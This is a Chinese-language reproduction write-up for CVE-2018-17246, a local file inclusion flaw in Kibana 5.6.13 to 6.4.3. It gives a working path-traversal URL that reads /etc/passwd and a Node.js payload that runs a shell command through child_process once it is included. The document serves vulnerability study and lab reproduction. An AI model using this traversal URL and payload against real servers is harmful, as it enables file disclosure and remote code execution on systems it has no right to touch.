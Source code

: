 （CVE-2018-17246）Kibana Local File Inclusion
=============================================

一、漏洞简介
------------

Kibana 为 Elassticsearch
设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

二、漏洞影响
------------

Kibana 5.6.13到6.4.3

三、复现过程
------------

直接访问如下URL，来包含文件`/etc/passwd`：

    http://www.0-sec.org:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![1.png](./.resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId24.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

    // docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
    export default {asJson: function() {return require("child_process").execSync("id").toString()}}

成功包含并返回命令执行结果：

![2.png](./.resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId25.png)
